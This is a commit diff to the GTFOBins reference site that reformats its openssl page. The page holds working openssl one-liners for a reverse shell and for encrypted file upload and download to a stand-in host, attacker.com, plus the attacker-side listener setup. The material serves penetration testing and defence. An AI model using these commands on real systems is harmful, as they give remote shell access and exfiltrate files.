

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Refactor openssl descriptions

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -1,20 +1,38 @@
 ---
 functions:
   reverse-shell:
-    - description: Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345` on the attacker box to receive the shell. Communication between attacker and target will be encrypted.
+    - description: |
+        To receive the shell run the following on the attacker box:
+
+            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
+
+        Communication between attacker and target will be encrypted.
       code: |
         RHOST=attacker.com
         RPORT=12345
         mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
   file-upload:
-    - description: Send a file to a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save` on the attacker box to collect the file.
+    - description: |
+        To collect the file run the following on the attacker box:
+
+            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save
+
+        Send a file to a TCP port, transmission will be encrypted.
       code: |
         RHOST=attacker.com
         RPORT=12345
         LFILE=file_to_send
         openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
   file-download:
-    - description: Fetch a file from a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send` on the attacker box to send the file.
+    - description: |
+        To send the file run the following on the attacker box:
+
+            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send
+
+        Fetch a file from a TCP port, transmission will be encrypted.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
